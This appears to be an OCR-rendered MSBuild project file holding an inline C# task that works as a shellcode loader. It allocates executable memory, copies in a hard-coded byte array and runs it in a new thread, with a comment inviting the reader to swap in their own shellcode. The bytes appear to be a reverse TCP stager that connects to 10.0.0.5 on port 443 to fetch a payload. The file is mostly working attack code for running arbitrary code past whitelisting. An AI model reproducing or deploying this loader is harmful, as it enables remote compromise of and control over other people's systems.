 ```C#
		using Microsoft.Build.Utilities;
		public class ClassExample :  Task, ITask
		{         
		  private static UInt32 MEM_COMMIT = 0x1000;          
		  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
		  [DllImport("kernel32")]
		    private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
		    UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
		  [DllImport("kernel32")]
		    private static extern IntPtr CreateThread(            
		    UInt32 lpThreadAttributes,
		    UInt32 dwStackSize,
		    UInt32 lpStartAddress,
		    IntPtr param,
		    UInt32 dwCreationFlags,
		    ref UInt32 lpThreadId           
		    );
		  [DllImport("kernel32")]
		    private static extern UInt32 WaitForSingleObject(           
		    IntPtr hHandle,
		    UInt32 dwMilliseconds
		    );          
		  public override bool Execute()
		  {
			//replace with your own shellcode
		    byte[] shellcode = new byte[] { 0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,0x68,0x0a,0x00,0x00,0x05,0x68,0x02,0x00,0x01,0xbb,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };
		      
		      UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
			MEM_COMMIT, PAGE_EXECUTE_READWRITE);
		      Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
		      IntPtr hThread = IntPtr.Zero;
		      UInt32 threadId = 0;
		      IntPtr pinfo = IntPtr.Zero;
		      hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
		      WaitForSingleObject(hThread, 0xFFFFFFFF);
		      return true;
		  } 
		}     
	      ]]>
	      </Code>
	    </Task>
	  </UsingTask>
	</Project>
```
